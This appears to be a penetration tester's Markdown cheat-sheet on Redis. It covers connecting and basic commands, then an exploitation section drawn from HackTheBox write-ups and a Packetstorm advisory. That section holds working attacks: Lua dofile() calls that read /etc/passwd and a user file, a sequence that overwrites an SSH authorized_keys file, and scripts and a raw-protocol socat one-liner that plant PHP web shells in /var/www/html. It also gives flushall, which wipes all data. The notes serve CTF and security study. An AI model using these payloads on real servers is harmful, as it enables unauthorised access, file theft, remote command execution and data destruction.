 # Redis
## Introduction to Redis
Key value pair database

(nil) mean does not exist

## Connecting
```bash
redis-cli -h $IP -p $port -a $password -n $databasenumber
```

## Concepts
```redis
info		# server info
```
Keyspace section provide the main dictionary of each database

## Useful Commands
```
select $database/$table
keys * # all keys
get $keyname

# CMD KEY
config get * # retrieve current configuration of the database
config get dir # windows directory command

get user	
set user


```

[flushall](https://redis.io/commands/flushall/)
```bash
# Delete all the keys of all the existing databases, not just the currently selected one. This command never fails.
flushall [ASYNC | SYNC]
```

## Exploitations

```sql
eval dofile('/etc/passwd') 0 # enumerating files, with lua script dofile()
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0 # enumerating files, with lua script dofile()
```

[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
```bash
$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? That’skinda trivial.
$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get di
1) "dir"
2) "/Users/antirez/.ssh"
3) 192.168.1.11:6379> config set dbfilename "authorized_keys"
4) OK
5) 192.168.1.11:6379> save
6) OK
```

[0xdf variation for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) - White space required!
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
cat cmd.php | redis-cli -x set subscribetoippsecandread0xdf
redis-cli -h 127.0.0.1 config set dir /var/www/html/
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
```

[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www) prefers *to talk raw Redis. Have a look here [https://www.compose.com/articles/how-to-talk-raw-redis/](https://www.compose.com/articles/how-to-talk-raw-redis/) and here [https://redis.io/topics/protocol](https://redis.io/topics/protocol). So, basically, we can do something like this:*
```bash
echo -ne '*1\r\n$8\r\nFLUSHALL\r\n*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$32\r\n<?php shell_exec($_GET["e"]); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$5\r\nz.php\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$46\r\n/var/www/html/8924d0549008565c554f8128cd11fda4\r\n*1\r\n$4\r\nSAVE\r\n' | /tmp/socat - TCP:redis:6379
```

## References

[Redis Commands](https://redis.io/commands/)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)